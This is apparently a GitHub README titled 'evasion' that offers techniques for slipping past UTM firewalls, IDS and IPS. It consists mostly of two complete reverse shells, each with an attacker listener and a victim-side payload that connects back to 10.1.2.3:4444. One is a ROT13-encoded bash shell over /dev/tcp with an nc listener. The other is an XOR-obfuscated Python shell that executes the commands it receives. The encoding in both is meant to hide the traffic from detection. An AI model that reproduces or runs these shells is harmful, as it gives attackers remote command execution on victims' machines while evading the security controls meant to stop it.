 # evasion
Techniques for evading firewalls and anti-malware detection.

Acronyms used:
* UTM - Unified Threat Management.  A class of nextgen firewalls with integrated security features.
* IDS - Intrusion Detection System.  A device that detects malicious network traffic.
* IPS - Intrusion Prevention System.  A device that detects and blocks malicious network traffic.

## ROT13 encoded reverse shell using bash TCP device

This technique is useful for getting a reverse shell through a UTM firewall, IDS or IPS.

In this example the attacking host is on IP address 10.1.2.3 and listens on port 4444 for the reverse shell from the victim.

( attacker )<br />
[ linux command ]<br />
`IFS=''; (while read -r lin; do echo $lin | tr 'A-Za-z' 'N-ZA-Mn-za-m'; done) | nc -nlvp 4444 | tr 'A-Za-z' 'N-ZA-Mn-za-m'`<br />

( victim )<br />
[ linux command ]<br />
`exec 5<>/dev/tcp/10.1.2.3/4444; /bin/bash 2>&1 <(while read -r lin; do echo $(echo $lin | stdbuf -i0 -o0 -e0 tr 'A-Za-z' 'N-ZA-Mn-za-m'); done <&5) | stdbuf -i0 -o0 -e0 tr 'A-Za-z' 'N-ZA-Mn-za-m' >&5; exec 5<&-`<br />

## XOR obfuscated reverse shell using python

This technique is useful for getting a reverse shell through a UTM firewall, IDS or IPS.

In this example the attacking host is on IP address 10.1.2.3 and listens on port 4444 for the reverse shell from the victim.

( attacker )<br />
[ python script ]<br />
```python
import socket
s= socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("0.0.0.0", 4444))
s.listen(2)
print "Listening... "
(client, (ip, port)) = s.accept()
print " Received connection from : ", ip
while True:
  command = raw_input('~$ ')
  encode = bytearray(command)
  for i in range(len(encode)):
    encode[i] ^=0x5A
  client.send(encode)
  en_data=client.recv(2048)
  decode = bytearray(en_data)
  for i in range(len(decode)):
    decode[i] ^=0x5A
  print decode
client.close()
s.close()
```

( victim )<br />
[ python script ]<br />
```python
import socket,subprocess,sys
RHOST = "10.1.2.3"
RPORT = 4444
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
while True:
  data = s.recv(1024)
  en_data = bytearray(data)
  for i in range(len(en_data)):
    en_data[i] ^=0x5A
  comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
  STDOUT, STDERR = comm.communicate()
  en_STDOUT = bytearray(STDOUT)
  for i in range(len(en_STDOUT)):
    en_STDOUT[i] ^=0x5A
  s.send(en_STDOUT)
s.close()
```
